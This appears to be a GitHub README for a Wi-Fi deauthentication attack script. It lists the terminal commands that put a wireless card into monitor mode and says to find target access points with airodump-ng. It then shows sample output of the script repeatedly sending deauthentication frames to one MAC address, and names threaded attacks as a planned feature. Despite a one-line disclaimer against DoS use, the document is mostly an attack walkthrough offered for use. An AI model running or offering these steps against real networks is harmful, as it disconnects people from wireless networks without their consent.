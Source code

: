 # Deauth Attack
You must not use THIS as DoS in case you did not know...

## Set up
Open your console or terminal, and follow STRICTLY the order.

```
# service network-manager stop
# ifconfig wlan0 down
# iwconfig wlan0 mode monitor
# ifconfig wlan0 up
```

## Target AP
You should have found some BSSID of disgusting APs using "airodump-ng" and so on...


## Attacking

```
# python deauth_attack.py
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
...
```

## Waiting update...

+ Automated BSSID scan
+ Threading deauth attacks
